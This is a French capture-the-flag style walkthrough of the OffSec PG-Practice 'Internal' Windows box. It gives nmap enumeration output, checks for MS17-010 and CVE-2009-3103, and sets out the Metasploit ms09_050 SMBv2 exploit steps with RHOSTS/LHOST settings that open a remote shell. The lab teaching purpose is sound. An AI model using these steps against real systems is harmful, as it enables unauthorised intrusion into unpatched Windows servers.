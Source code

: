 ```yaml
---
title: PG-Practice Internal 
meta_title: ""
description: La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice. Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue. Elle ne requiert pas d'élévation de privilèges.
date: 2024-04-04T05:00:00Z
image: /images/offsec-banner.jpg
categories:
  - Réaliste
  - Facile
author: Emma.exe
tags:
  - realiste
  - pg-practice
  - offsec
draft: false
---
```


## Introduction

La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice.
Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue.
Elle ne requiert pas d'élévation de privilèges.

Pour la résolution de ce challenge je vous propose deux niveaux d'aide : 
- Le premier niveau sous la forme d'indices et de ressources à explorer pour résoudre le challenge, sans pour autant donner la solution
- Le deuxième niveau qui présente un exemple de résolution.

{{< notice "tip" >}} Essayez de ne pas regarder la solution si vous voulez vraiment progresser. Une fois le challenge résolu, il peut être intéressant de la regarder pour apprendre de nouvelles techniques ! {{< /notice >}}


## Enumération

{{< tabs >}} {{< tab "Niveau 1" >}}
On commence toujours par énumérer la machine avec nmap.
Veillez à bien énumérer tous les ports de la machine pour être sûrs de ne rien manquer.
En effet, il est courant que les créateurs des box modifient les ports par défaut.
Ainsi, on peut très bien trouver un site web sur le port 8080 par exemple.

Une fois que vous possédez une meilleure connaissance de votre machine, des services qui tournent etc, vous pouvez partir à la recherche de vulnérabilités.

Il est important d'énumérer la machine **entièrement** avant de passer à la phase d'exploitaiton pour éviter de perdre trop de temps.

Si vous ne trouvez pas de vulnérabilités, c'est certainement que vous n'avez pas assez énumérer.

Pour la recherche de vulnérabilités, connaissez-vous **Nmap Script Engine (NSE)** ?

{{< /tab >}}

{{< tab "Niveau 2" >}}
Pour l'énumération, j'utilise les options suivantes : 
- `-p-` pour énumérer tous les ports
- `-sV` pour obtenir les versions des services

Résultats :
```sh
nmap -p- 192.168.242.40 -sV            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:26 EDT
Nmap scan report for 192.168.242.40
Host is up (0.016s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.70 seconds
```

Il n'y a rien de particulier d'ouvert, on peut tester si la vulnérabilité MS10 17 (eternal blue) est présente sur la machine : 
```sh
nmap -p445 --script smb-vuln-ms17-010 192.168.242.40
```

C'est effectivement vulnérable !
**Cependant**, il est important d'énumérer la machine entièrement avant de passer à la phase d'exploitation.

Nous allons donc effectuer un autre scan de vulnérabilité plus généraliste avec nmap : 
```sh
nmap --script vuln 192.168.242.40 
Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-054: false

```

On voit que la machine est aussi vulnérable à la faille "**SMBv2 Negotiation Vulnerability**" c'est-à-dire la **CVE-2009-3103**. Il est plus probable que ce soit cette vulnérabilité-là que l'auteur de la box veut nous faire exploiter.
En effet, elle est très intéressante puisqu'elle va permettre d'effectuer une RCE (Remote Execution Code) et potentiellement nous permettre d'obtenir un shell interactif. 
{{< /tab >}}
{{< /tabs >}}

## Recherche d'exploit


{{< tabs >}} {{< tab "Niveau 1" >}}

Afin de rechercher des exploits, vous pouvez utiliser la commande : `searchsploit`.
Searchsploit est un outil en ligne de commande qui permet de rechercher et télécharger des exploits depuis le site exploit-db.

Afin de faire une recherche efficace, n'hésitez pas à varier vos mots-clefs. Souvent une vulnérabilité porte plusieurs noms.
Sur exploit-db, il est rare de trouver les noms des CVE.

Autre ressource : Nous avons créer une documentation Meterpreter si vous souhaitez l'utiliser pour résoudre ce challenge : [Meterpreter](../../fiche/meterpreter)

{{< /tab >}}
{{< tab "Niveau 2" >}}
Afin de trouver un exploit, je commence par me renseigner sur la vulnérabilité.
Premièrement, les vulnérabilités Windows sont souvent appelés par l'indicatif Microsoft.
Dans notre cas, on voit qu'elle est aussi appelé "MS09-050".
La vulnérabilité est due à une mauvaise implémentation du protocole SMBv2 dans certaines versions de Windows

Je fais une recherche sur le site https://exploit-db.com en utilisant MS09-050 et je constate qu'il existe plusieurs exploits.

exploit-db nous permet de voir si l'exploit a été vérifié ou non. Dans la mesure du possible, on privilégie les exploits qui le sont.

> Si vous décidez de choisir un exploit non vérifié, il est important de regarder ce que fait réellement l'exploit. 

Ici il n'y en a qu'un seul vérifié, disponible ici : 
https://www.exploit-db.com/exploits/16363

Il s'agit d'un module Metasploit.
{{< /tab >}}
{{< /tabs >}}

## Exploitation

{{< tabs >}} {{< tab "Niveau 1" >}}

Pour la phase d'exploitaion, veillez à bien renseigner les options dont nécessite l'exploit que vous souhaitez utiliser.

Si celui-ci a besoin de notre IP locale, pensez à renseigner celui de l'interface vers le réseau de l'Offsec.  

Enfin, il existe de nombreux exploits pour une seule faille. Si le premier ne fonctionne pas, tentez-en un autre. 

{{< /tab >}}
{{< tab "Niveau 2" >}}
Nous lançons donc Metasploit en sudo :
```sh
sudo msfconsole
```

On recherche l'exploit en recherchant son ID : 
```sh
search exploit ms09_050_smb2_negotiate_func_index
```

Il devrait normalement apparaitre dans la recherche. 

On récupère son chemin et on tape la commande :

```sh
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index  
```

On affiche les options que nécessite l'exploit pour fonctionner en tapant la commande : 
```sh
show options
```
On voit deux options requises qui ne sont automatiquement renseignée ou qu'il faut modifier : l'hôte distant (Remote Host) et l'hôte qui va réceptionner le shell (Listen Host).

On configure les options comme suit : 
```sh
set RHOSTS <ip-cible>
set LHOST <ip-local>
```

> Pour l'IP local, il faut bien choisir l'IP de l'interface qui communique avec le réseau Offsec (généralement celle de tun0)

On exécute l'exploit en tapant la commande : 
```sh
run
```

Au bout de quelques instants, on obtient un shell et on récupère le flag qui se trouve toujours sur le bureau Administrateur.

{{< /tab >}}
{{< /tabs >}}
